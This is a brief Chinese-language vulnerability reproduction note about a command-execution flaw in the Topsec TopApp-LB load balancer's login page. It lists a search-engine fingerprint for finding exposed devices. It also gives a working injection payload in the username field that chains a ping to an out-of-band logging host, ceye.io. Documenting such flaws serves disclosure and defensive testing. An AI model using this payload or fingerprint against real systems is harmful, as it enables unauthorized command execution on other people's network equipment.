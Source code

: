 # 

# 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](./images/202202091921374.png)



成功收到请求



![](./images/202202091921379.png)
